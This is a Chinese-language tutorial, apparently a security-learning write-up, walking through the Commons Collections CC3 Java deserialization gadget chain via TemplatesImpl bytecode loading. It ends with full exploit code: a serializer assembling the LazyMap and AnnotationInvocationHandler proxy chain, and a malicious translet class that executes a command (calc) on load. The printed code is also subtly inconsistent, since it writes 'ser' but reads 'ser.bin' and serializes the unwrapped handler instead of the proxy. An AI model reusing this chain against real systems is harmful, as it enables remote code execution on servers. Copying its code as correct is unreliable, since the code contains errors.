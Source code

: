 ### CommonsCollections CC3

#### 前置知识

    java 的类加载机制

#### 链条分析

CC1 和 CC6 都是直接任意方法执行，而 CC3 使用的是另一种方式动态类加载。一个是命令执行，一个是代码执行。

我们先来到 ClassLoder 类

![Classloader](img_cc3/ClassLoader.png)

根据 java 类加载机制，它接下来会调用 definedclass 方法。

![definedClass](img_cc3/defineclass.png)

那么哪里调用了 defineClass 呢？

![defineTransletClassed](img_cc3/defineTransletClassed.png)

可以看到在 Templatesimpl 下有一个调用，是一个 private 方法，我继续往前找。

![getTransletClasses](img_cc3/getTransletClasses.png)
![newinstance](img_cc3/newinstance.png)

可以看到在 getTranletClasses 下有一个调用。同样是个 private，关键的是它同时调用了 newinstance 方法，这给了我们实例化一个类的方法，可能会造成代码执行，我们继续往前找。

![newtransformer](img_cc3/newtransformer.png)

在 newTransformer 下有一个 getTransletClasses 的调用，而且它是一个 public 方法，那么我们的链就完整了,只要把 CC1 链子的前面拿过来就好。

**AnnotationinvcationHandler.readObject >> proxy() >> Templatesimpl.newTransformer >> defineclass.newinstance**

中间的有几个参数问题需要解决，我们先看下 newTransformer。

![/newTransformer_arg](img_cc3/newTransformer_arg.png)

我们只需要调用无参方法即可，这个可以不用管，再看 getTransletInstance。

![getTransletInstance](img_cc3/getTransletClassed_arg.png)

_name 不能为空，_class 不能为空，然后看下 defineTransletClasses。

![defineTransletClassed_arg](img_cc3/defineTransletClassed_arg.png)

_bytecodes 不能为空，我们还需要调用 _tfactory 的方法，所以 _tfactory 也不能为空，这都需要利用反射进行修改。动态调试过后还有另一个问题。

![nullpointer](img_cc3/nullpointer.png)

一个空指针错误，我们动态调试跟进下看看。

![superclass](img_cc3/superclass.png)

我们加载类的父类必须是一个常量，我们跟进看看是什么。

![superclass_name](img_cc3/superclass_name.png)

是这么个东西，所以我们实现恶意类的时候必须继承这个类。
这就是我们需要的所有东西了。

#### 完整代码

序列化代码

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class CC3 {

    public static void main(String[] args) throws Exception {
        //新建一个 templates 实例
        TemplatesImpl templates = new TemplatesImpl();
        //反射设置必要的属性
        Class<? extends TemplatesImpl> templatesClass = templates.getClass();
        Field nameField = templatesClass.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"RCE");
        Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        //读取恶意类
        byte[] code = Files.readAllBytes(Paths.get("D://Java_Code//cc1//src//CC3_RCE.class"));
        //放进二维数组中
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        //set _tfactory 属性
        Field tfactoryField = templatesClass.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates, new TransformerFactoryImpl());

        //templates.newTransformer();

        //使用 CC1 前半段进行包裹
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer", null, null)
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        
        HashMap<Object, Object> map = new HashMap<>();
        Map lazymap = LazyMap.decorate(map, chainedTransformer);

        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> annotationInvocationConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationConstructor.setAccessible(true);
        InvocationHandler o = ((InvocationHandler) annotationInvocationConstructor.newInstance(Target.class, lazymap));

        Map map1 = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, o);
        Object o1 = annotationInvocationConstructor.newInstance(Target.class, map1);
        serialize(o);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

恶意类代码

```java
package org.example;

import java.io.IOException;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

//继承父类
public class CC3_RCE extends AbstractTranslet {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
//重写必要的方法
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}

```



